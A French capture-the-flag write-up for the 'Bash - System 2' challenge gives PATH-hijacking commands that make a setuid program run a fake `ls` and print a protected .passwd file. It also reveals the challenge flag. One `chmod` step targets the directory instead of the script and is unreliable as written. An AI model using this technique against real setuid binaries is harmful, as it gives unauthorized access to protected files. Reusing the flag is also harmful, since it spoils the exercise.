 # Bash - System 2

# Description : 

> Comme dans la première version de ce challenge (Bash System 1), le programme applique les ID utilisateur réels et effectifs du processus actuel à **app-script-ch12-cracked** (qui est aussi l'utilisateur capable de lire le fichier **.passwd**).
> Le programme exécute ensuite la commande `ls` sur le fichier **.passwd**.
> 
> La différence avec la première version est que, cette fois, il faut gérer la présence des paramètres positionnels **-lA**.

# Exploit : 

 
> Pour ce faire, il faut créer un nouveau dossier dans **/tmp**.
> 
> `mkdir -p /tmp/ch12-exploit`
> 
> Ensuite, il faut créer un nouveau fichier appelé `ls`. Ce fichier contiendra la commande `cat` à exécuter pour afficher le contenu de **.passwd**.
> 
> `echo \'/bin/cat /challenge/app-script/ch12/.passwd\' > /tmp/ch12-exploit/ls`
> 
> Il faut donner à ce fichier les droits d'exécution avec
> 
> `chmod +x /tmp/ch12-exploit`
> 
> Et enfin, il faut exporter le nouveau chemin dans la variable d'environnement *PATH*, afin que le lien symbolique puisse s'exécuter avant les programmes de base situés dans le répertoire **/usr/bin**.
> 
> `export PATH=/tmp/ch12-exploit`
> 
> Maintenant, il suffit de lancer le programme `./ch12` qui affichera le flag suivant : **8a95eDS/\*e_T#**